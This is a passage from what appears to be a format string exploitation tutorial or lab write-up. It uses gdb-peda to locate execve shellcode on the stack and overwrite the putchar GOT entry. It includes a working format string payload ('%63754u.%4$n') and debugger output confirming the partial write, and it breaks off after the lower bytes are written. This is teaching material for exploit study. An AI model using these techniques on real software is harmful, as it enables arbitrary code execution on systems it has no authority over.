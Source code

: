 ```
     0xbffff92b:	mov    al,0xb
     0xbffff92d:	int    0x80
     0xbffff92f:	add    BYTE PTR [ebp+0x53],dl
     0xbffff932:	inc    ebp
  gdb-peda$ 
```
Above we first used the find command to find 4 consecutive NOP's on the stack
(0x90's) and we found a list of possible addresses, we then chose an address
near to the bottom of the list and examined 20 instructions (x/20i) from that
address. This looks like the assembly for an execve syscall (the 0xb going in
the eax/al register and the int 0x80) so we found our address 0xbffff910.

We now have all the information we need to exploit this, to recap
* We are going to overwrite the putchar address 0x0804a010
* We are going to overwrite it with the address of our shell code where is
  0xbffff910

## Crafting the exploit
Armed with our information we are now going to tackle the writing the address of
our shellcode in two parts 

* Write the lower order bytes. From our shellcode address this means we first
  want to write the value f910 which in decimal is 63760 now we have to take
  into account that we have already written 5 bytes and we want to use one byte
  as a spacer so this leaves us with 63754 bytes and our format string becomes

```
  gdb-peda$ run $(python -c 'print "\x10\xa0\x04\x08"').%63754u.%4\$n

   [----------------------------------registers-----------------------------------]
  EAX: 0xf910 
  EBX: 0xb7fd1ff4 --> 0x1a0d7c 
  ECX: 0x0 
  EDX: 0x0 
  ESI: 0x0 
  EDI: 0x0 
  EBP: 0xbffff638 --> 0x0 
  ESP: 0xbffff59c --> 0x8048480 (<main+60>:	leave)
  EIP: 0xf910
  EFLAGS: 0x210282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
  [-------------------------------------code-------------------------------------]
  Invalid $PC address: 0xf910
  [------------------------------------stack-------------------------------------]
  0000| 0xbffff59c --> 0x8048480 (<main+60>:	leave)
  0004| 0xbffff5a0 --> 0xa ('\n')
  0008| 0xbffff5a4 --> 0xbffff826 --> 0x804a010 --> 0xf910 
  0012| 0xbffff5a8 --> 0x1 
  0016| 0xbffff5ac --> 0xb7ec71c9 (test   eax,eax)
  0020| 0xbffff5b0 --> 0x804a010 --> 0xf910 
  0024| 0xbffff5b4 (".%63754u.%4$n")
  0028| 0xbffff5b8 ("754u.%4$n")
  [------------------------------------------------------------------------------]
  Legend: code, data, rodata, value
  Stopped reason: SIGSEGV
  0x0000f910 in ?? ()
  gdb-peda$ x/xw 0x0804a010
  0x804a010 <putchar@got.plt>:	0x0000f910
  gdb-peda$ 
```
  As you can see we have written the lower order bytes to the address correctly
